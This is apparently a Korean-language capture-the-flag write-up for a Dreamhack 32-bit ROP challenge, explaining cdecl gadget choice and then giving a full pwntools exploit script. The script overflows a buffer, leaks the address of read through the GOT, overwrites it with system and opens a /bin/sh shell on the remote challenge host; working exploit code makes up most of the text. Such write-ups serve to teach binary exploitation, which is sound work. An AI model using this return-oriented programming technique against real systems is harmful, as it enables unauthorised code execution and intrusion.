 - argument가 3개일 때: `pop; pop; pop; ret`
- argument가 2개일 때: `pop; pop; ret`
- argument가 1개일 때: `pop; ret`
- argument가 없을 때: `ret`

### Exploit

**32 bit machine**으로 변경되면서 고려해야 할 점:

- Packing을 할 때 `p64`가 아닌 `p32`**를 사용**해야 함.
- Payload를 작성할 때 **cdecl을 고려**하여 `pop; ret`, `pop; pop; pop; ret` gadget을 삽입해야 함.
- `write(1, read_got, 0x4)`로 `read`의 address를 받아올 때 8 byte가 아니라 **4 byte**를 받아와야 함.
- `read_got`의 다음 byte에 `"/bin/sh"`를 입력할 때 `read_got + 0x8`이 아니라 `read_got + 0x4`**에 입력**해야 함.

```python
from pwn import *

#p = process('./basic_rop_x86')
p = remote("host3.dreamhack.games", 15286)
#gdb.attach(p)

e = ELF('./basic_rop_x86')

write_plt = e.plt['write']
write_got = e.got['write']
read_plt = e.plt['read']
read_got = e.got['read']
puts_plt = e.plt['puts'] 
pr = 0x080483d9 # pop; ret
pppr = 0x08048689 # pop; pop; pop; ret

payload = b"A"*(0x40 + 0x8)

# write(1, read_got, 0x4)
payload += p32(write_plt)
payload += p32(pppr) # pop; pop; pop; ret
payload += p32(1)
payload += p32(read_got)
payload += p32(4)

# read(0, read_got, 0x10)
payload += p32(read_plt)
payload += p32(pppr) # pop; pop; pop; ret
payload += p32(0)
payload += p32(read_got)
payload += p32(0x10)

# read("/bin/sh") == system("/bin/sh")
payload += p32(read_plt)
payload += p32(pr)
payload += p32(read_got + 0x4)

p.send(payload)

p.recvn(0x40)
read = u32(p.recvn(4))
print ("read", hex(read))

system = read - 0x99a10
print(hex(system))
p.send(p32(system) + b"/bin/sh\x00")

p.interactive()
```